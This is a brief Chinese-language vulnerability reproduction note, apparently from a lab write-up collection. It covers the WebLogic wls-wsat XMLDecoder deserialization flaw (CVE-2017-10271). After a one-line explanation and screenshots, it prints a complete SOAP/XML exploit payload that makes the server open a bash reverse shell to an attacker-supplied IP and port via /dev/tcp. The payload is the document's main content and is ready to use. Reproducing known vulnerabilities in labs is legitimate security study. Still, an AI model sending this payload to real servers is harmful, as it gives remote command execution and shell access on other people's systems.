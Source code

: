 # Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞（CVE-2017-10271）

## 漏洞原理

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。


## 漏洞复现

打开环境


![image](https://github.com/user-attachments/assets/5531f355-17a8-4e86-aa7a-417d5ce514fe)



访问/wls-wsat/CoordinatorPortType

![image](https://github.com/user-attachments/assets/e7e4cd13-42b3-449d-a589-00cb679297d6)

对其POST请求xml数据

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/(your ip)/(port) 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

![image](https://github.com/user-attachments/assets/d66382e8-e974-4fc7-b11e-e487eb3f4650)




